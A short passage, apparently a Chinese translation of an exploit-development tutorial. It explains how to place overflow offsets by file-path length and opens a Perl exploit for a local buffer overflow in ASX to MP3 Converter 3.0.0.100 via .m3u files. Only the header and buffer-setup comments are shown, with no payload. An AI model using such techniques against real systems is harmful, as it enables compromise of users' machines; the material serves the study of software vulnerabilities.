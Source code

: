 正如你上面看到的，我们只是循环访问数组，并使用每个文件路径的长度（减去共享的'C：\'）来策略地放置偏移量。  

我们的最终利用看起来像这样：

    #!/usr/bin/perl
     
    ######################################################################
    # Exploit Title: ASX to MP3 Converter 3.0.0.100 (.m3u) - Local BOF
    # Date: 11-16-2013
    # Exploit Author: Mike Czumak (T_v3rn1x) -- @SecuritySift
    # Vulnerable Software: ASX to MP3 Converter 3.0.0.100 
    # Software: http://www.mini-stream.net/asx-to-mp3-converter/download/
    # Tested On: Windows XP SP3
    # Credits: Older versions found to be vulnerable to similar bof
    # -- http://www.exploit-db.com/exploits/8629/
    ######################################################################
     
    my $buffsize = 50000; # sets buffer size for consistent sized payload
     
    # the application incorporates the path of the m3u file in the buffer 
    # this can hinder successful execution by changing the offset to eip
    # to make this more reliable, we'll create a buffer w/ several offsets
    # to potential file locations (desktop, my music, my playlists, etc)
    # if the m3u file is placed in any of these locations it should work
     